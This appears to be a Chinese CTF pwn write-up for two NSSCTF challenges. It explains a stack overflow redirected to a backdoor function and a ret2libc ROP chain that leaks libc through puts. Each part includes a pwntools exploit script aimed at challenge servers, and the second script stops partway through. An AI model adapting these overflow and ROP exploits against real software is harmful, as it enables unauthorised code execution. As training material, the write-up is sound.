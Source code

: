 # Hello_world
签到题，利用栈溢出漏洞劫持返回函数至`backdoors`即可。
exp:
```python
from pwn import *
from wstube import websocket

context(arch='amd64', os='linux', log_level='debug')
local = False
ip = 'node2.anna.nssctf.cn'
port = 28485
if local:
	p = process('./Hello_world')
	pwnlib.gdb.attach(p, 'b func1')
else:
	p = remote(ip, port)
	# p = websocket()

payload = b'a' * (0x20 + 8) + b'\xc5'
p.send(payload)
p.interactive()
```
# ret2libc1
菜单题，可以找到栈溢出漏洞在`shop`函数里
![[Pasted image 20250302221923.png]]
`main`函数中可以找到当输入7时会执行`see_it`函数，可以刷钱，刷了钱后便可以买下商店触发栈溢出漏洞。
![[Pasted image 20250302222124.png]]
利用该漏洞可以泄漏`libc`基址构造`rop`。
exp:
```python
from pwn import *
from wstube import websocket

context(arch='amd64', os='linux', log_level='debug')
local = False
ip = 'node2.anna.nssctf.cn'
port = 28561
if local:
	p = process('./attachment')
	pwnlib.gdb.attach(p, 'b ')
else:
	p = remote(ip, port)
	# p = websocket()

elf = ELF('./attachment')
libc = ELF('./libc.so.6')

ret = 0x400579
pop_rdi = 0x400d73

p.recvuntil(b'6.check youer money\n')
p.sendline(b'7')
p.recvuntil(b'exchange?')
p.sendline(b'1000')
p.recvuntil(b'6.check youer money\n')
p.sendline(b'5')
p.recvuntil(b'name it!!!\n')

payload = b'a' * (0x40 + 8)
payload += p64(pop_rdi) + p64(elf.got['puts']) + p64(elf.plt['puts']) + p64(0x400b1e)
```